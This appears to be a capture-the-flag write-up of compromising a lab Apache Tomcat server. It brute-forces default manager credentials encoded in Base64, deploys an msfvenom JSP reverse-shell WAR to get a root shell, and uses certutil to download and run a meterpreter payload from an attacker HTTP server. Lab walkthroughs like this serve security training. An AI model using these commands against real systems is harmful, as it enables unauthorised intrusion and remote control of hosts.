 # Enumeration
- we use nmap for enumeration:![](attachment/8cddd3f669aa81aea34d8653a30213a4.png)
- we found a default webpage (apache tomcat):![](attachment/d02f2dc3192004cfd7585a724d0f1ef8.png)
# Exploitation
- Using burpsuite we find that the password is base64 encoded:![[2024-01-30_17-04.png]
- We can use decoder to decode bas64 and we find that it is in a username:password format![](attachment/a5f1a7ba31b459cc5db0cb05c841e182.png)
-  To do brute forcing we need to convert to Base64:![](attachment/4f60e926b816554f43443b0369c09eac.png)
- To do this for all passwords we need a bash command `for cred in $(cat tomcat_passwds.txt); do echo -n $cred | base64 ; done `' where tomcat_passwds.txt has all default passwords
- Use burpsuite to bruteforce: ![](attachment/e77a9f5d4675c83e9021b93490f5570e.png)![](attachment/03e27f6b79e550cb04c3133bfb5c2bbf.png)
- We found 2 matches: ![](attachment/4ead91fe8752623142e84e771e647cb0.png)
- These are the passwords required:![](attachment/c869f5d1258d6afb864ce672de57603f.png) 
- We create a msfvenom payload with `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.25 LPORT=4444 -f war > reverse.war` then deploy using the previously found credentials.![](attachment/8b49fe36849bd475de6c2b24314a1b21.png)
- listening on netcat using `nc -nlvp 4444` we get an root shell:![](attachment/a2375e2e39e1be7e5fbd328004feeb6b.png)
## Metasploit
- use `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.25 LPORT=4444 -f exe > meterpreter.exe` for creating the  payload
- listen using exploit/multi/handler
- To upload the payload host a http server with `python -m SimpleHTTPServer 80` then use `certutil -urlcache -f http://10.10.14.25/Downloads/Jerry/meterpreter.exe c:\users\administrator\desktop\flags\meterpreter.exe` in the shell and execute the meterpreter.exe file.
- Then we get a meterpreter shell
`